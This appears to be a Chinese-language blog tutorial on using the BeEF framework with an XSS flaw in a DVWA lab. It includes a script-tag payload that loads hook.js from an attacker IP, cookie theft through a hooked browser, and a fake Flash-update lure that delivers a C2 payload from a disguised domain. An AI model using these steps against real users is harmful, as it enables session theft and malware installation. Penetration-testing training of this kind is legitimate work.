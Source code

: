 ```yaml
---
layout: post
title:  "XSS和Beef的使用"
categories: Kali Linux
tags: XSS 漏洞
author: Sincere
---
```




* content
{:toc}








## 准备

Beef是web框架攻击平台。我们可以利用简单的xss漏洞，通过它编写好的JavaScript（hook.js）控制目标的浏览器，然后通过目标的浏览器获取该主机更多详细信息，也可以对内网进一步的扫描

我们需要两台机子

> 攻击机：kali  
> 靶机：DVWA  

## 开始

第一次启动，beef不允许用默认用户名密码的

![图片1.png](https://i.loli.net/2020/02/09/8yj32dYbFDGQTOP.png)

我们要去修改一下 /etc/beef-xss/config.yaml

![图片2.png](https://i.loli.net/2020/02/09/9vgU81tIOZYlWMQ.png)

user和passwd自己改，自己记住就行，重新./beef启动就可以了

可以看到如下界面，两个红框内容都一样进入那个界面都可以，但是构建xss语句时候我们用第二个框内地址

![图片3.png](https://i.loli.net/2020/02/09/ae7DMIHVrY89pj3.png)

打开url进入登录界面登录

![图片4.png](https://i.loli.net/2020/02/09/TtdrHwzUYIFpvsM.png)

登陆进去之后

![图片5.png](https://i.loli.net/2020/02/09/5mJlyd2QDwTHoc8.png)

这个初始界面，建议仔细的看一下，我这里挑几处的说一下

首先是上线和下线，只有目标访问了存在xss攻击界面时候才上线，如果切换界面就视为下线

模块颜色的区分

![图片6.png](https://i.loli.net/2020/02/09/VsbeRMitNyz2kSa.png)

其他的可以自己百度翻译了解一下。

这里我们做一个小例子

上面我们打开时候会生成一个hook.js地址，我们主要目的是要插入这个js代码，让它去触发，我们可以这样写

\<script src=”http://192.168.0.123:3000/hook.js”></script>

当然xss的payload要根据是否存在waf做相应的绕过，核心就是加载该hook.js代码

这里我们就用dvwa靶场来演示

![图片7.png](https://i.loli.net/2020/02/09/lAe2CQBik3R9Edf.png)

点击留言时候，我们可以返回kali的beef，发现已经上线了

![图片8.png](https://i.loli.net/2020/02/09/pQEu1LqN5Y8TZF4.png)

这里有很多模块，我们可以用

![图片9.png](https://i.loli.net/2020/02/09/kRsJ6IXAon82TDG.png)

我用一个简单的模块，获取对方的cookie

![图片10.png](https://i.loli.net/2020/02/09/KrbI8iBqYt6XCaN.png)

也可以用一下弹窗模块

![图片11.png](https://i.loli.net/2020/02/09/be1hu7cD6qSaOMf.png)

![图片12.png](https://i.loli.net/2020/02/09/lzhjdncBD3xXK4P.png)

下面讲一下护网中我用的比较多的一个模块

![图片13.png](https://i.loli.net/2020/02/09/1gBmC6ekKrT7RqW.png)

这里就是让目标弹出一个flash更新提示，然后我们可以把c2生成的码放在公网上，然后填在custom payload url这里，域名可以自己伪造一下，对方只要安装，你这边c2就可以上线了，这是我在护网中用的比较多的方法，当然还有更多思路
